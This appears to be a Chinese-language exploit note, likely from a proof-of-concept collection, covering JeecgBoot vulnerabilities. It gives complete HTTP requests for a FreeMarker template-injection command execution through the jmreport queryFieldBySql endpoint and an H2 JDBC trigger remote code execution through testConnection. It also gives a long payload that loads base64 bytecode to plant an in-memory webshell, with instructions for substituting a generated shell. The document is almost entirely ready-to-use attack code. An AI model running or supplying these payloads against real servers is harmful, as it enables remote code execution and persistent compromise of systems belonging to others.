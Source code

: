 ## JeecgBoot sql注入漏洞
```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 192.168.90.1:3100
Origin: http://192.168.90.1:3100
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 123

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"open -a calculator.app  \") }' "}
```
## queryFieldBySql 注入内存马
```
{"sql":"call${\"freemarker.template.utility.ObjectConstructor\"?new()(\"javax.script.ScriptEngineManager\").getEngineByName(\"js\").eval(\"classLoader=java.lang.Thread.currentThread().getContextClassLoader();try{classLoader.loadClass('org.apachen.SOAPUtils').newInstance();}catch(e){clsString=classLoader.loadClass('java.lang.String');bytecodeBase64='这里填入base64的内存马';try{clsBase64=classLoader.loadClass('java.util.Base64');clsDecoder=classLoader.loadClass('java.util.Base64$Decoder');decoder=clsBase64.getMethod('getDecoder').invoke(base64Clz);bytecode=clsDecoder.getMethod('decode',clsString).invoke(decoder,bytecodeBase64);}catch(ee){try{datatypeConverterClz=classLoader.loadClass('javax.xml.bind.DatatypeConverter');bytecode=datatypeConverterClz.getMethod('parseBase64Binary',clsString).invoke(datatypeConverterClz,bytecodeBase64);}catch(eee){clazz1=classLoader.loadClass('sun.misc.BASE64Decoder');bytecode=clazz1.newInstance().decodeBuffer(bytecodeBase64);}}clsClassLoader=classLoader.loadClass('java.lang.ClassLoader');clsByteArray=(''.getBytes().getClass());clsInt=java.lang.Integer.TYPE;defineClass=clsClassLoader.getDeclaredMethod('defineClass',[clsByteArray,clsInt,clsInt]);defineClass.setAccessible(true);clazz=defineClass.invoke(classLoader,bytecode,0,bytecode.length);clazz.newInstance();};#{1};\")}","dbSource":"","type":"0"}
```
使用内存马工具生成payload，将生成的base64格式的内存马 替换payload 中bytecodeBase64的值

![image](../../images/55a9877c-c111-4897-a665-8f58e9de5300.png)

![image](../../images/03a476fa-7d2a-4221-9c96-c5b60040adfd.png)

![image](../../images/24b6b0b2-419c-43d1-a0c8-8ced440e0a79.png)

内存马路径：`http://192.168.18.131:8080/jeecg-boot/jmreport/queryFieldBySql/`

## JeecgBoot SSTI 漏洞
```
POST /jeecgboot/jmreport/testConnection HTTP/1.1
Host: 192.168.90.1:3100
Content-Length: 383
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.90.1:3100
Referer: http://192.168.90.1:3100/login?redirect=/dashboard/analysis
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "id": "1",
  "code": "dataSource1",
  "dbType": "H2",
  "dbDriver": "org.h2.Driver",
  "dbUrl": "jdbc:h2:mem:test;init=CREATE TRIGGER shell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('open -a calculator.app')\u000A$$",
  "dbName": "test",
  "dbUsername": "sa",
  "dbPassword": "",
  "connectTimes": 5
}

```
## 漏洞分析
https://c0olw.github.io/2023/08/15/JeecgBoot-SSTI%E4%BB%A5%E5%8F%8AJDBC-RCE/
